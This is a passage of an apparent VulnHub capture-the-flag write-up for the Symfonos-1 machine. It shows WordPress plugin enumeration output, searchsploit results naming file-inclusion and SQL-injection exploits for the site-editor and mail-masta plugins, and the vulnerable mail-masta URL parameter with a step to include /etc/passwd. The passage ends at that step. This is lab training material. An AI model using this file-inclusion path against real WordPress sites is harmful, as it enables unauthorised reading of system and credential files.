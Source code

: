 	[+] site-editor
	 | Location: http://symfonos.local/h3l105/wp-content/plugins/site-editor/
	 | Latest Version: 1.1.1 (up to date)
	 | Last Updated: 2017-05-02T23:34:00.000Z
	 | Readme: http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt
	 |
	 | Found By: Known Locations (Aggressive Detection)
	 |  - http://symfonos.local/h3l105/wp-content/plugins/site-editor/, status: 200
	 |
	 | Version: 1.1.1 (80% confidence)
	 | Found By: Readme - Stable Tag (Aggressive Detection)
	 |  - http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt
	```
	- `site-editor 1.1.1`
	- `mail-masta 1.0`
4. Search exploits for `site-editor 1.1.1`
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot/smb]
	└─# searchsploit site editor wordpress
	---------------------------------------------------------------------------------- 
	|Exploit Title   					    |  Path
	----------------------------------------------------------------------------------
	WordPress Plugin Site Editor 1.1.1 - Local File Inclusion   | php/webapps/44340.txt
	----------------------------------------------------------------------------------
	```
5. Seach exploits for `mail-masta 1.0`
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot/smb]
	└─# searchsploit wordpress mail masta
	----------------------------------------------------------------------------------- 
	| Exploit Title 		                           | Path           
	----------------------------------------------------------------------------------- 
	WordPress Plugin Mail Masta 1.0 - Local File Inclusion     | php/webapps/40290.txt
	WordPress Plugin Mail Masta 1.0 - Local File Inclusion (2) | php/webapps/50226.py
	WordPress Plugin Mail Masta 1.0 - SQL Injection            | php/webapps/41438.txt
	----------------------------------------------------------------------------------- 
	```
6. Use `WordPress Plugin Mail Masta 1.0 - Local File Inclusion`
	1. Exploitable parameter
		```
		http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=<LFI File>
		```
	2. Include `/etc/passwd`